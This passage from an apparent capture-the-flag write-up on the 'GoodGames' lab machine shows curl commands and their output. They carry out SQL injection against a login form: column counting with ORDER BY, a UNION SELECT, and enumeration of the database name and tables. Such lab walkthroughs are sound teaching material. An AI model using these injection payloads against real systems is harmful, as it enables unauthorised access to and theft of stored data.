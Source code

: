 ### Information leakage via SQLi
We will take benefit of the SQLi we obtained on `http://goodgames.htb/login` to try to enumerate the database used to store web information. Let's try to enumerate the number of columns the table we are selecting has:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 1 -- -&password=1" -s -i | grep Content-Length
Content-Length: 9285
```
We can suppose the table has at least 1 row, let's try this with an impossible number of columns:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 100 -- -&password=1" -s -i | grep Content-Length
Content-Length: 33490
```
So we can try to guess the maximum column number:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 4 -- -&password=1" -s -i | grep Content-Length
Content-Length: 9285
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 5-- -&password=1" -s -i | grep Content-Length
Content-Length: 33490
```
With this information we are sure that the table has 4 columns. We can use this to send a union between the email and the four columns enumerated:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' union select 1,2,3,4 -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome revan4</h2>
```
We succeeded, as we can see, the webpage is returning the username and the last column concatenated. In order to see it better, let's change the email to `revan @korriban.com`:
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,4 -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome 4</h2>
```
Now, with this sequentiatior set up, we can try to enumerate the database name:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,database() -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome main</h2>  
```
So the database name is `main`. Let's enumerate the tables in the database:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,table_name from information_schema.tables -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome ADMINISTRABLE_ROLE_AUTHORIZATIONSAPPLICABLE_ROLESCHARACTER_SETSCHECK_CONSTRAINTSCOLLATIONSCOLLATION_CHARACTER_SET_APPLICABILITYCOLUMNSCOLUMNS_EXTENSIONSCOLUMN_PRIVILEGESCOLUMN_STATISTICSENABLED_ROLESENGINESEVENTSFILESINNODB_BUFFER_PAGEINNODB_BUFFER_PAGE_LRUINNODB_BUFFER_POOL_STATSINNODB_CACHED_INDEXESINNODB_CMPINNODB_CMPMEMINNODB_CMPMEM_RESETINNODB_CMP_PER_INDEXINNODB_CMP_PER_INDEX_RESETINNODB_CMP_RESETINNODB_COLUMNSINNODB_DATAFILESINNODB_FIELDSINNODB_FOREIGNINNODB_FOREIGN_COLSINNODB_FT_BEING_DELETEDINNODB_FT_CONFIGINNODB_FT_DEFAULT_STOPWORDINNODB_FT_DELETEDINNODB_FT_INDEX_CACHEINNODB_FT_INDEX_TABLEINNODB_INDEXESINNODB_METRICSINNODB_SESSION_TEMP_TABLESPACESINNODB_TABLESINNODB_TABLESPACESINNODB_TABLESPACES_BRIEFINNODB_TABLESTATSINNODB_TEMP_TABLE_INFOINNODB_TRXINNODB_VIRTUALKEYWORDSKEY_COLUMN_USAGEOPTIMIZER_TRACEPARAMETERSPARTITIONSPLUGINSPROCESSLISTPROFILINGREFERENTIAL_CONSTRAINTSRESOURCE_GROUPSROLE_COLUMN_GRANTSROLE_ROUTINE_GRANTSROLE_TABLE_GRANTSROUTINESSCHEMATASCHEMATA_EXTENSIONSSCHEMA_PRIVILEGESSTATISTICSST_GEOMETRY_COLUMNSST_SPATIAL_REFERENCE_SYSTEMSST_UNITS_OF_MEASURETABLESTABLESPACESTABLESPACES_EXTENSIONSTABLES_EXTENSIONSTABLE_CONSTRAINTSTABLE_CONSTRAINTS_EXTENSIONSTABLE_PRIVILEGESTRIGGERSUSER_ATTRIBUTESUSER_PRIVILEGESVIEWSVIEW_ROUTINE_USAGEVIEW_TABLE_USAGEblogblog_commentsuser</h2>
```
But this output is illegible, so we can treat it to see the output correctly:
```bash
```